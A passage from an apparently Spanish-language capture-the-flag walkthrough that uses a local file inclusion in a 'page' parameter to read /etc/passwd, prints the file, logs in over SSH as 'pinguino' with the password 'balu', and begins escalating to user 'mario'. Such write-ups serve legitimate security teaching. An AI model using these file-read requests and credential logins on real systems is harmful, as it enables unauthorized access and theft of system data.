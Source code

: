 Vemos que nos saca una la cual puede leer el `passwd`, por lo que veremos que contiene dicho archivo:

```
URL = http://<IP>/index.php?page=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
pinguino:x:1000:1000::/home/pinguino:/bin/bash
mario:x:1001:1001::/home/mario:/bin/bash
```

Vemos a 2 usuarios, por lo que intentaremos a ver cual de los 2 usuarios tiene la contraseña `balu` de la siguiente forma:

### SSH

```shell
ssh pinguino@<IP>
```

Metemos como contraseña `balu` y veremos que estamos dentro.

## Escalate user mario

Si leemos la nota llamada `nota_mario.txt` veremos lo siguiente:

```shell
cat nota_mario.txt
```

